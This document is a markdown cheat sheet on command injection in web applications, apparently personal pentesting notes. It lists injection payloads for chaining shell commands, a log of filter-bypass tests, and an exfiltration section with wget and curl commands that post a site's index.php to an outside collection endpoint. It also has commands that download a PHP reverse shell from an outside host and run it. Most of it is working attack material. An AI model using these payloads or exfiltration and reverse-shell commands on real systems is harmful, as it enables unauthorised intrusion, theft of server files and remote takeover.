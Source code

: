 # Command injection

## PHP vulnerable methods
1. exec()
2. passthru()
3. system()
4. eval()

If one of those method is in the code, the website may be vulnerable  
## Important shell commands
1. **Unix/Linux** :
	- whoami
	- ping
	- ls
	- sleep / asleep
	- nc
	- curl
2. **Windows** :
	- whoami
	- dir
	- ping
	- timeout
	- curl

# Payloads

```bash
# Line feed
ls %0A id # %0A Execute both (RECOMMENDED)

#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

## Blind command injection

Use sleep/timeout, redirections >, &, &&, curl, wget, ...
		
## Test filters

```
-                       syntax error
'                       syntax error
''                      OK
'127.0.0.1'             OK
()                      syntax error
`ls`                    syntax error (car ` filtré donc `ls` => ls)
`;`                     OK
127.|0.0.1              OK => | filtrated
127.0.&0.1              OK => & filtrated
127.0.;0.1              OK => ; filtrated
127.0.$0.1              OK => $ filtrated
127.0.`0.1              OK => ` filtrated
127.0.``0.1             OK => ` filtrated
127.0.'0.1              syntax error => ' not filtrated
127.0.''0.1             OK => '' empty string so no effect
192.198.169.198         NOK
127.0.0.1 127.0.0.1     NOK => as it does in a normal host, spaces accepted
127 .0.0.1              syntax error => confirm spaces OK
#127.0.0.1              syntax error
127.0.0.1 #127.0.0.1    OK => # not filtrated
127.0.0.1 -L            OK
127.0.0.1 -c 1          syntax error
127.0.0.1 -i 10         OK, long time (>20s) so argument injection valid
127.0.0.1%0asleep 20    long time (20s + ~3), so command asleep 20 probably executed
```
# Exfiltration

**Using post request**
```bash
wget --post-file index.php https://hookb.in/xxxxxx
curl --data "@index.php" https://hookb.in/xxxxxx
```

**Using an other server**
```bash
python -m SimpleHTTPServer 6666
python -m http.server 6666
```

**Reverse shell**
```bash
wget http://ssh.neoreo.fr/php-reverse-shell.php -O /tmp/reverse.php
php /tmp/reverse.php
```

# Tips

To simplify things, you can edit the DOM to convert `<input>` to `<textarea cols="22" rows="3">`

# Resources 
- https://github.com/payloadbox/command-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://book.hacktricks.xyz/pentesting-web/command-injection
